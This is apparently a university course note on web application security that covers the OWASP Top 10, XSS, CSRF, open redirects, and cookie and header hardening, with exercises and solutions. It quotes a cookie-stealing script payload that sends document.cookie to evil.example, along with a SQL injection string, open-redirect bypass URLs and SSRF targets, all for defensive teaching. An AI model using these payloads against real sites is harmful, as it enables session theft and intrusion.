

# CS-11 Web Application Security

> [!info] Topic card
> **Unit:** U5 · **Time:** 6 h · **Lab:** [[LAB-CS-05 Security Headers and Configuration Analysis]] · **Code:** `render_comment`, `new_csrf_token`/`csrf_ok`, `safe_redirect` and `header_findings` in `code/cs_examples.py`, with tests (8 open-redirect cases, XSS escaping, header and cookie review). SQL injection is covered in depth in [[CS-12 Secure Software Development and Database Security]] and [[LAB-CS-06 Input Validation and SQL Injection Prevention]].

> [!warning] Ethics
> Attack strings appear here only so you can recognise them and test **your own** code locally. Never try them on websites you don't own or aren't authorised in writing to test.

## 1. Learning objectives
1. **Explain** the web trust model (browser, same-origin policy, cookies, server) and why every request parameter is attacker-controlled.
2. **Describe** the OWASP Top 10 categories, with one concrete example and one primary defence for each.
3. **Prevent** XSS (context-aware output encoding, CSP), CSRF (tokens, SameSite) and open redirects, with tested code.
4. **Configure** session cookies and security headers, and **review** a response's headers automatically.
5. **Apply** server-side authorisation to every object (preventing IDOR) and validate input against an allow-list.

## 2. Why it matters
Web apps are the most exposed part of most organisations: always online, reachable by anyone, and built quickly. The same few bug classes (broken access control, injection, XSS, misconfiguration) cause a large share of real breaches, year after year. They are well understood and mostly preventable with disciplined defaults.

## 3. Prerequisites
HTTP basics (methods, status codes, headers) · [[CS-03 Authentication and Identity]] (sessions) · [[CS-04 Authorization and Access Control]] (object-level checks) · [[CS-09 Network Security and Secure Communication]] (TLS) · [[PY-24 Secure Programming and Input Validation]].

## 4. Intuition
The browser is a **shared workspace**: pages from many sites run side by side, held apart by the **same-origin policy**. Your server receives requests that *look* like they come from your page, but anyone can craft any request. So the core rules are:
- **Never trust input:** validate it.
- **Never trust the client to enforce rules:** authorise on the server.
- **Never let data become code:** encode output and parameterise queries.

## 5. Rigorous explanation

### 5.1 The web trust model
- **Origin** = (scheme, host, port). The same-origin policy stops scripts on `evil.example` reading responses from `hostel.example.ac.tz`.
- **Cookies** are attached automatically to requests to their site, *even when another site triggers the request*. This is the root of CSRF.
- HTML, JavaScript, URLs and CSS are different **interpreter contexts**. Untrusted data that reaches one of them unencoded can become code (XSS).

### 5.2 OWASP Top 10 (2021 edition)
OWASP revises the list every few years; check owasp.org for the current edition before quoting rankings.

| # | Category | Example | Primary defence |
|---|---|---|---|
| A01 | Broken Access Control | Change `/requests/17` to `/requests/18` and see another student's data (IDOR) | Server-side object-level checks, deny by default |
| A02 | Cryptographic Failures | Passwords hashed with MD5; HTTP login pages | TLS everywhere; [[CS-08 Password Storage and Authentication Security]] |
| A03 | Injection (incl. XSS) | `' OR 1=1 --` in a login form; `<script>` in a comment | Parameterised queries; output encoding |
| A04 | Insecure Design | No rate limit on the password-reset flow | Threat modelling ([[CS-02 Threat Modeling and Security Requirements]]) |
| A05 | Security Misconfiguration | Debug pages in production; directory listing | Hardened defaults; header review |
| A06 | Vulnerable and Outdated Components | An old framework version with a known RCE | Dependency inventory and updates |
| A07 | Identification and Authentication Failures | No MFA; session ID in the URL | MFA, secure session management |
| A08 | Software and Data Integrity Failures | Unsigned updates; unsafe deserialisation (`pickle` of user data) | Signatures, safe formats (JSON) |
| A09 | Security Logging and Monitoring Failures | No record of failed logins | Logging and alerting ([[CS-15 Logging, Monitoring, Incident Response and Recovery]]) |
| A10 | Server-Side Request Forgery (SSRF) | A "fetch image from URL" feature reaching `http://169.254.169.254/` | Allow-list destinations; block internal ranges |

### 5.3 XSS (cross-site scripting)
- **Stored:** a script saved in the database (e.g. a comment) runs for every viewer.
- **Reflected:** a script in a URL parameter is echoed back in the page.
- **DOM-based:** client-side JavaScript writes untrusted data into the page (`innerHTML`).

**Defence:**
1. **Context-aware output encoding.** In an HTML body, use `html.escape`. In attributes, quote and encode. For JS or URL contexts, use the appropriate encoder, or avoid putting data in those contexts at all.
2. Use auto-escaping template engines (Jinja2, with autoescape on).
3. On the client, use `textContent`, not `innerHTML`.
4. **Content-Security-Policy** as a second layer: e.g. `default-src 'self'`, no `'unsafe-inline'`.
5. `HttpOnly` cookies, so injected scripts can't read the session cookie.

### 5.4 CSRF (cross-site request forgery)
A logged-in warden visits `evil.example`, which auto-submits a form to `https://hostel.example.ac.tz/requests/17/close`. The browser attaches the warden's cookie, and the server sees a valid session. **Defences:**
- A **synchronizer token**: a random value stored in the session and embedded in each form, compared on POST.
- **SameSite=Lax/Strict** cookies.
- Checking the `Origin` header on state-changing requests.
- Never change state with GET.

### 5.5 Sessions, cookies and headers
Session ID cookies:
- random (≥ 128 bits), regenerated at login (prevents session fixation);
- `Secure; HttpOnly; SameSite=Lax`;
- with idle and absolute timeouts, and invalidated at logout.

Response headers:

| Header | Purpose |
|---|---|
| `Strict-Transport-Security` | Always use HTTPS for this site |
| `Content-Security-Policy` | Allow-list script, style and frame sources; `frame-ancestors` stops clickjacking |
| `X-Content-Type-Options: nosniff` | Don't guess content types |
| `Referrer-Policy` | Limit which URLs leak in the Referer header |

Avoid version banners (`Server: Apache/2.4.41`), which help attackers match known exploits.

### 5.6 Input validation
Validate on the **server**:
- type, length, range, format;
- **allow-lists** rather than block-lists;
- canonicalise first (decode, then validate).

Validation reduces the attack surface, but it **does not replace** output encoding or parameterised queries. For example, the name `O'Brien` is valid input and must still be stored safely.

## 6. Terminology
| Term | Meaning |
|---|---|
| Same-origin policy | Browser rule isolating content by scheme + host + port |
| XSS | Injected script executing in a victim's browser in the site's origin |
| CSRF | A forged state-changing request riding on the victim's cookies |
| IDOR | Insecure direct object reference: accessing objects by ID without an ownership check |
| SSRF | Making the server fetch attacker-chosen URLs, often internal ones |
| Open redirect | The site forwards users to an attacker-supplied URL (used in phishing) |
| CSP | Content-Security-Policy header restricting resource sources |
| Session fixation | Forcing a known session ID on a victim before login |

## 7. Step-by-step: securing a form endpoint
1. GET `/requests/new`: generate a CSRF token for the session and embed it in a hidden field.
2. POST `/requests`:
   - check the session is authenticated;
   - check `csrf_ok(session_token, form_token)`;
   - check the role and object authorisation.
3. Validate fields: `room` matches `^[A-D]-\d{3}$`, `description` is 1–500 characters, `category` is in the allowed set.
4. Store using a **parameterised** query.
5. On display, output-encode (`render_comment`) or use an auto-escaping template.
6. Respond with the security headers. Redirect only via `safe_redirect`.
7. Log the action (user, request ID, time), never secrets.

## 8. Diagram: CSRF attack and token defence


## 9. Worked examples

### Example 1 (basic): output encoding stops stored XSS (real output)
```python
from cs_examples import render_comment
print(render_comment("baraka", '<script>fetch("https://evil.example/?c="+document.cookie)</script>'))
```
```text
<p><b>baraka</b>: &lt;script&gt;fetch(&quot;https://evil.example/?c=&quot;+document.cookie)&lt;/script&gt;</p>
```
The browser displays the text and doesn't execute it. Note that the encoding happens at **output** time, for the HTML context. Store the original text, and encode it for wherever it is displayed.

### Example 2 (intermediate): open redirect. Incorrect → corrected
```python
# INSECURE: for critique only
def after_login(next_url: str) -> str:
    if "hostel.example.ac.tz" in next_url:   # substring check
        return next_url
    return "/"
```
`https://hostel.example.ac.tz.evil.example/` contains the trusted name and passes. So does `https://evil.example/?hostel.example.ac.tz`. The corrected `safe_redirect` parses the URL and compares the **hostname exactly** against an allow-list. It accepts only relative paths starting with a single `/`, and rejects `//evil.example` (protocol-relative), backslash tricks, `http:` and `javascript:`. All eight cases are tested.

### Example 3 (challenging): header review of a real-looking response
Input headers:
```text
Server: Apache/2.4.41
Content-Type: text/html
Set-Cookie: session=abc123; Path=/
Content-Security-Policy: script-src 'self' 'unsafe-inline'
```
`header_findings` returns (as asserted in the test):
```text
missing strict-transport-security: enforce HTTPS (HSTS)
missing x-content-type-options: stop MIME sniffing (should be nosniff)
missing referrer-policy: limit referrer leakage
content-security-policy allows inline or any-origin scripts
no clickjacking protection (CSP frame-ancestors or X-Frame-Options)
server header discloses a version
session cookie missing secure
session cookie missing httponly
session cookie missing samesite
```
The hardened set in the test (HSTS; `default-src 'self'; frame-ancestors 'none'`; `nosniff`; a Referrer-Policy; `Secure; HttpOnly; SameSite=Lax`) returns no findings. Headers are defence in depth: a CSP doesn't excuse missing output encoding.

## 10. Application: the exam-results portal
For [[X-CASE-01 Secure Exam Results Portal]]:
- **A01:** every `/results/<student_id>` request checks that `student_id == session.user` or that the user holds a lecturer role for that course.
- **A03:** the ORM or parameterised SQL only, and Jinja2 autoescape.
- **A07:** MFA for lecturers who can change marks.
- **A09:** every mark change is logged with the old value, new value, user and reason.
- **A05:** no debug mode in production, and the header set from Example 3.
- **CSRF:** tokens on mark-entry forms.
- **Redirects:** `safe_redirect` after login.

## 11. Common mistakes
| Mistake | Fix |
|---|---|
| Hiding a button instead of checking permissions on the server | Authorise every request server-side |
| Block-listing `<script>` | Context-aware encoding; attackers use ``, `<svg onload>`, … |
| Encoding on input and storing HTML entities | Store raw text; encode on output for each context |
| State changes via GET (`/delete?id=5`) | POST/PUT/DELETE with CSRF protection |
| `verify=False`, or `Access-Control-Allow-Origin: *` with credentials | Proper certificates; strict CORS allow-lists |
| Detailed stack traces shown to users | Generic error pages; details only in server logs |
| `pickle.loads` on user data | JSON with schema validation |
| Substring or `startswith` URL checks | Parse, then compare hostnames exactly |

## 12. Comparison: XSS vs CSRF vs SSRF
| | XSS | CSRF | SSRF |
|---|---|---|---|
| Who is tricked | The victim's browser runs attacker script | The victim's browser sends a forged request | The server fetches an attacker URL |
| Abuses | The site's trust in its own page content | The site's trust in the browser's cookies | Internal network trust |
| Primary defence | Output encoding + CSP | Tokens + SameSite + Origin check | Destination allow-list, block internal IPs |

## 13. Practice
**L1** 1. What three parts make up an origin? 2. Which cookie flag stops JavaScript from reading the cookie?

**L2** 3. For each, name the OWASP category: (a) a stack trace on the error page; (b) `/invoice?id=1002` shows another customer's invoice; (c) an old jQuery version with a known XSS. 4. Why doesn't HTTPS prevent XSS?

**L3** 5. Write server-side validation rules for the maintenance-request form (room, category, description, priority). 6. Explain why SameSite=Lax alone isn't a complete CSRF defence.

**L4** 7. A "preview link" feature fetches a URL that the user supplies and shows its title. Threat-model it for SSRF and specify the defences. 8. Design a CSP for a site that loads scripts from its own origin and a single CDN, has no inline scripts, and must not be framed.

**L5** 9. Write a security review report for a small Flask app you've built (or the hostel system). For each OWASP category, record a finding or "not observed", the evidence (code line or header), the risk, and the fix, plus a re-test plan.

## 14. Hints
> [!tip]- Hints
> 3: A05, A01, A06. 4: TLS protects the channel, not the content. 6: older browsers, GET-based state changes, same-site subdomains. 7: internal IP ranges, DNS rebinding, redirects. 8: `script-src 'self' https://cdn…`, `frame-ancestors 'none'`.

## 15. Worked solutions
> [!success]- Solutions 1–2
> 1. Scheme, host and port. 2. `HttpOnly`.

> [!success]- Solution 3
> (a) A05 Security Misconfiguration (information disclosure). (b) A01 Broken Access Control (IDOR). (c) A06 Vulnerable and Outdated Components.

> [!success]- Solution 4
> HTTPS secures data in transit between browser and server. XSS is a flaw in what the server *sends*: the malicious script arrives over HTTPS, correctly encrypted, and runs in the site's origin. The defence has to be in the application (encoding, CSP).

> [!success]- Solution 5
> | Field | Rule |
> |---|---|
> | room | Matches `^[A-D]-\d{3}$` (blocks A–D, three-digit room) |
> | category | One of {plumbing, electrical, furniture, internet, other} |
> | description | A string of 10–500 characters after trimming; any Unicode text allowed (it's displayed with encoding) |
> | priority | One of {low, normal, urgent}; `urgent` allowed only for warden/technician roles (an authorisation rule, not just validation) |
>
> Reject with field-specific messages that don't echo raw input into HTML, and log repeated failures.

> [!success]- Solution 6
> - Lax still sends cookies on top-level GET navigations, so any state-changing GET endpoint stays vulnerable.
> - Requests from **same-site** subdomains (e.g. a compromised `blog.example.ac.tz`) count as same-site.
> - Older or misconfigured clients may not enforce it.
>
> Use tokens (or an Origin check) as the primary defence, and SameSite as a layer.

> [!success]- Solution 7
> **Threats:**
> - fetching `http://127.0.0.1:…`, internal admin panels, or cloud metadata (`169.254.169.254`), which can expose credentials;
> - port scanning the internal network;
> - DNS rebinding (the name resolves to a public IP at check time and an internal one at fetch time);
> - redirects to internal URLs;
> - huge responses (DoS).
>
> **Defences:**
> - allow only `https`;
> - resolve the hostname, reject private, loopback, link-local and multicast ranges, and connect to the *checked* IP;
> - disable redirects, or re-check each hop;
> - timeouts and size limits;
> - run the fetcher in an isolated network segment with egress filtering;
> - log all fetches.

> [!success]- Solution 8
> `Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.org; object-src 'none'; base-uri 'self'; frame-ancestors 'none'; form-action 'self'`. There's no `'unsafe-inline'`, so inline scripts and event-handler attributes are blocked. Deploy it first as `Content-Security-Policy-Report-Only` to find breakage.

> [!success]- Solution 9 (format)
> A table: | ID | OWASP category | Finding | Evidence | Likelihood × Impact | Fix | Re-test |. For example: "F-03 | A01 | `/requests/<id>` lacks an ownership check | `views.py` line 42 | High × High | add `authorize(user, 'view_request', req)` | test: user A requests B's id → 403". Finish with a summary, the scope, the method (code review plus local testing only), and limitations.

## 16. Self-test (pass ≥ 4/5)
1. Which defence stops XSS at the source? 2. What does `frame-ancestors 'none'` prevent? 3. Why regenerate the session ID at login? 4. What makes IDOR possible? 5. Why is `pickle` dangerous for untrusted data?
> [!success]- Answers
> 1. Context-aware output encoding. 2. Clickjacking (being framed by other sites). 3. To prevent session fixation. 4. A missing server-side ownership or authorisation check on object IDs. 5. Unpickling can execute arbitrary code.

## 17. Flashcards
#flashcards/cyber-security
Number-one OWASP 2021 category?::A01 Broken Access Control.
XSS primary defence?::Context-aware output encoding (plus CSP as a second layer).
CSRF primary defence?::A synchronizer token (plus SameSite cookies and an Origin check).
Secure session cookie flags?::Secure; HttpOnly; SameSite=Lax (or Strict).
IDOR?::Accessing another user's object by changing an ID, because of a missing ownership check.
SSRF classic target?::Internal services and cloud metadata endpoints (169.254.169.254).
Open-redirect safe check?::Parse the URL and compare the hostname exactly with an allow-list, or allow relative paths only.

## 18. Blank-page recall
List the OWASP Top 10 (2021) from memory, with one defence each. Redraw the CSRF sequence.

## 19. Revision summary
- Every request is attacker-controlled: validate input, authorise on the server, encode output, parameterise queries.
- XSS: encoding + CSP + HttpOnly. CSRF: tokens + SameSite + Origin check. Open redirect: exact host allow-list.
- Sessions: random, regenerated at login, Secure/HttpOnly/SameSite, with timeouts.
- Headers (HSTS, CSP, nosniff, Referrer-Policy) are defence in depth.
- Broken access control is the most common serious flaw: check every object, every time.

## 20. Links
Prev: [[CS-10 Operating System Security and Hardening]] · Next: [[CS-12 Secure Software Development and Database Security]] · Lab: [[LAB-CS-05 Security Headers and Configuration Analysis]] · Related: [[LAB-CS-06 Input Validation and SQL Injection Prevention]], [[PY-24 Secure Programming and Input Validation]], [[SD-17 Secure and Reliable Software Design]]

## 21. Sources
- OWASP Top 10: 2021: https://owasp.org/Top10/
- OWASP Cheat Sheet Series (XSS Prevention; CSRF Prevention; Session Management; Unvalidated Redirects and Forwards; HTTP Headers): https://cheatsheetseries.owasp.org/
- MDN Web Docs, Content Security Policy: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- IETF RFC 6265, *HTTP State Management Mechanism* (cookies), 2011; RFC 6797, *HTTP Strict Transport Security*, 2012.
- *(Links not checked during the build, because there was no network access.)*

## 22. Mastery checklist
- [ ] I can name each OWASP Top 10 category with an example and a defence
- [ ] I can prevent XSS, CSRF and open redirects in code
- [ ] I can configure cookies and headers, and review them automatically
- [ ] LAB-CS-05 done · reviews scheduled
